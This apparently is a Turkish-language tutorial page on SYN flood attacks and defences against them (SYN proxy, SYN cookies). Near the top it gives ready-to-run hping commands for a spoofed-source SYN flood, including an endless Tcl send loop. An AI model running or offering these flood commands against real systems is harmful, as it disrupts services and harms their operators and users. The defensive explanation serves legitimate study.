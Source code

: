 
<strong>Syn Flood Atak</strong></p>

`hping  --rand-source -S -d 500 -p <port> IP`

<p>Syn flood saldırısını TCL dili ile de yazabilirsiniz.</p>

```
sudo hping

hping3 { while {1} { hping send "ip(saddr=1.2.3.4,daddr=192.168.1.1)+tcp(sport=4231,dport=80,flags=s)" }
```

<h2 id="önlem">ÖNLEM ?</h2>

<ul>
<li><strong>Tablonun boyutunu arttırmak</strong>:</li>
</ul>

<p>Daha çok maliyet ve geçerli bir çözüm değil.</p>

<ul>
<li><strong>Syn proxy</strong>:</li>
</ul>

<p>Hedef ile arasında durarak SYN paketlerini kendi üzerine alır SYN+ACK gönderir. ACK geri geldiğinde paketi hedefe ulaştırır.</p>

```
  Syn proxy’i bütün portlara syn yollayarak tespit edebiliriz. Eğer <br>
  kapalı port yoksa syn proxy ile karşı karşıya olduğumuzu anlarız.
```

<ul>
<li><strong>Syn proxy cookie</strong>:</li>
</ul>

<p>Threeway Handshake esnasında değişmeyen 4 bilgi var. <br>
Bunlar: Source IP, Source Port, Destination IP, Destination Port</p>

<ol>
<li>Makine bir fonksiyon ile bu 4 bilgiyi ve bir de makine <br>
çalıştırılmaya başladığında RAM de random oluşan bir değeri <br>
topluyor.</li>
<li>Ardından bu “toplam”ı SYN isteği yollayan makinelere SYN+ACK <br>
döndüreceği zaman sequence number olarak kullanıyor.</li>
<li>Kendisine threeway handshake’in son aşaması olan ACK paketi <br>
döndüğünde ACK sayısı “toplam”+1 olmak zorundadır.</li>
<li>“toplam”+1 den 1 çıkarıp gelen ACK paketini doğruluyor.</li>
</ol>
